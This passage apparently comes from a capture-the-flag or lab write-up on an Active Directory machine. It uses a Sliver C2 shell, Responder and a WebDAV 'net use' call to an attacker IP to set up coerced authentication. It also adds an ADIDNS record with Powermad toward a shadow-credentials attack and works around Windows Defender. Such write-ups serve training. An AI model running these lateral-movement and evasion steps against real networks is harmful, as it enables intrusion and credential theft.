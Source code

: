 Now, on bloodhound nothing is interesting so we just have a shell on WS01 with a user who don't have any interesting permissions

But afer some enumeration, using GetWebDAVStatus we can verify if the webclient service is enabled

```bash
sliver (sidecar-http) > execute -o "GetWebDAVStatus.exe" "ws01"

[*] Output:
[x] Unable to reach DAV pipe on ws01, system is either unreachable or does not have WebClient service running
```
So we can try to enable him using our ip 

[How to enable him](https://www.thehacker.recipes/a-d/movement/mitm-and-coerced-authentications/webclient#start-the-webclient-service)

```console
Responder.py -I tun0

sliver (sidecar-http) > execute -o "cmd.exe" "/c net use h: http://10.8.2.163/"
```
![alt text](<../assets/image_sidecar/webdav success.png>)

We can therefore try to coerce WS01 in order to, for example, carry out a shadowcreds attack like that :

[Abuse](https://www.thehacker.recipes/a-d/movement/mitm-and-coerced-authentications/webclient#abuse)

But first we need to add a record for our ip, we can do that with ```Powermad.ps1``` like that :

```New-ADIDNSNode -Tombstone -Verbose -Node WIN-PH5EYU9RDZ0 -DATA 10.8.2.163```

Since we can't have powershell because of windows defender, we have to execute powershell commands like this :

```bash
sliver (sidecar-http) > execute -o "powershell.exe" "whoami"

[*] Output:
sidecar\e.klaymore
```
but by doing this, it creates a new process 'powershell.exe' every time, so if we do ```execute -o "powershell.exe" ". .\Powermad.ps1"```, Powermad will only load on the process that we have just launched, this will lead to this error

![alt text](<../assets/image_sidecar/error powermad.png>)
